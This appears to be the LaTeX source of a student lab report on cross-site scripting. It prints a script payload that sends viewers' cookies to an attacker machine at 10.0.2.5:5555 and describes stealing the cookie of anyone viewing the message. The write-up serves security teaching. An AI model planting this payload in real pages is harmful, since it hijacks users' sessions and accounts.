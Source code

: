 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{center}\texttt{Hello Folks,\\<script>document.write('<img src=http://10.0.2.5:5555?c='+ escape(document.cookie) + '   >'); </script>\\This script is to test XSS. Thanks.}\end{center}
This script creates image element. The browsers attempts a HTTP GET request to fetch the image. However, the URL of the image is the address of our machine that captures a cookie. As parameter to the request we add a cookie encoded in a string.
\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice.png}\\[1cm]

Then on attacker machine we can observe incoming request, therefore we are able to steal a cookie of anyone viewing the message.\\
\includegraphics[width=.95\textwidth]{gfx/xss/task3-alice-cookie-stolen.png}
\end{document}
